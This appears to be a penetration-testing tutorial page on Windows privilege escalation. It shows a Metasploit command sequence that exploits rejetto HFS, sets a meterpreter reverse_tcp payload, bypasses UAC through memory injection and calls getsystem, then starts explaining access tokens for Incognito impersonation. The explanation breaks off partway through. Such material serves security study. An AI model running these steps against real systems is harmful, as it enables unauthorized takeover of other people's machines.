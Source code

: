 

## <mark style="color:red;">Windows Privilege Escalation: Bypassing UAC</mark>

* User Account Control (UAC) is a Windows security feature introduced in Windows Vista that is used to prevent unauthorized changes from being made to the operating system.
* UAC is used to ensure that changes to the operating system require approval from the administrator.
* We can utilize the “Windows Escalate UAC Protection Bypass (In Memory injection)” module to bypass UAC by utilizing the trusted publisher certificate through process injection. It will spawn a second shell that has the UAC flag turned off.

**Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
# we will be using the "rejetto" vuln to exploit the target.
search rejetto
set payload windows/x64/meterpreter/reverse_tcp
getsystem # to automatically elevate privilege in windows sustem.
getprivs #current user privileges in Windows.
shell # spawn cmd prompt shell.

# You need a user part of the local administrator group to bypass UAC.
shell > net users # Enumerate every users on the system
shell > net localgroup administrators #Enumerate every users part of the administrator group on the system.
# the "admin" user is part of the LocalAdministrators group.

msf6 > use exploit/windows/http/bypassuac_injection # Bypass UAC with memory injection.
msf6 > use payload windows/x64/meterpreter/reverse_tcp
msf6 > set SESSIONS 1 and LPORT
msf6 > set TARGET Windows\ x64
run
#You can then use the getsystem command to elevate your privileges
msf6 > getsystem
```
{% endcode %}



## <mark style="color:red;">Windows Privilege Escalation: Token Impersonation With Incognito</mark>

**Windows Access Tokens**

* Windows access tokens are a core element of the authentication process on Windows and are created and managed by the Local Security Authority Subsystem Service (LSASS).
* A Windows access token is responsible for identifying and describing the security context of a process or thread running on a system. Simply put, an access token can be thought of as a temporary key akin to a web cookie that provides users with access to a system or network resource without having to provide credentials each time a process is started or a system resource is accessed.
* Access tokens are generated by the winlogon.exe process every time a user authenticates successfully and includes the identity and privileges of the user account associated with the thread or process. This token is then attached to the userinit.exe process, after which all child processes started by a user will inherit a copy of the access token from their creator and will run under the privileges of the same access token.
* Windows access tokens are categorized based on the varying security levels assigned to them. These security levels are used to determine the privileges that are assigned to a specific token.
* An access token will typically be assigned one of the following security levels:
  * **Impersonate-level** tokens are created as a direct result of a non-interactive login on Windows, typically through specific system services or domain logons.
  * **Delegate-level** tokens are typically created through an interactive login on Windows; primarily through a traditional login or through remote access protocols such as RDP.
